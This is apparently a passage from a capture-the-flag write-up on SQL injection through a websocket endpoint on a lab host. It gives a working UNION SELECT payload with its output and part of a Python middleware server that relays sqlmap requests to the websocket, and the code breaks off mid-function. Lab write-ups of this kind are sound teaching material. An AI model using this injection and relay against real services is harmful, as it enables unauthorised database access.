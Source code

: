 ## Websocket SQLi using sqlmap

`/version` endpoint is vulnerable for sql injection.

```bash
❯ python websocket-script.py "\" UNION SELECT 1,2,3,4-- -"
> {"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}
```

We can use `sqlmap` to automate sql injection using a middleware server.

Here is a simple python server that acts as a middleware server for `sqlmap`. The logic can vary based on the web socket response. This script is mostly focused on the current environment.
```py
from http.server import BaseHTTPRequestHandler, HTTPServer
import websockets
import asyncio
import json

ws_server = "ws://ws.qreader.htb:5789/version"

def send_ws(data):

    async def lets_talk():
        async with websockets.connect(ws_server) as ws:
            payload = json.dumps({"version": data})
            await ws.send(payload)
            msg = await ws.recv()
            if msg:
                # print(f"> {msg}")
                return f"> {msg}"

    try:
        msg = asyncio.get_event_loop().run_until_complete(lets_talk())
        return msg
    except websockets.exceptions.ConnectionClosed as e:
        # print(e)
        return 'ConnectionClosedError'  #This error means the sql server behind the websocket is crashed.

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_POST(self):
        if self.path == '/forward':
            content_length = int(self.headers['Content-Length'])
            content_type = self.headers['Content-Type']

            # Parse the POST data as JSON
            if 'application/json' in content_type:
                post_data = json.loads(self.rfile.read(content_length))
            else:
                # Return error if content type is not JSON
                self.send_error(400, 'Invalid content type')
                return

            # Extract the 'payload' parameter from the JSON object
            mw_data = post_data.get('payload')
            ws_resp = send_ws(mw_data)

            # If debug flag is set, print out the submitted payload to the console
            if self.server.debug:
                print(mw_data)  # Print data recieved on the middleware server
                print(ws_resp)  # Print response recieved from websocket server

            # Add logic based on the ws server to send a response back to the client
```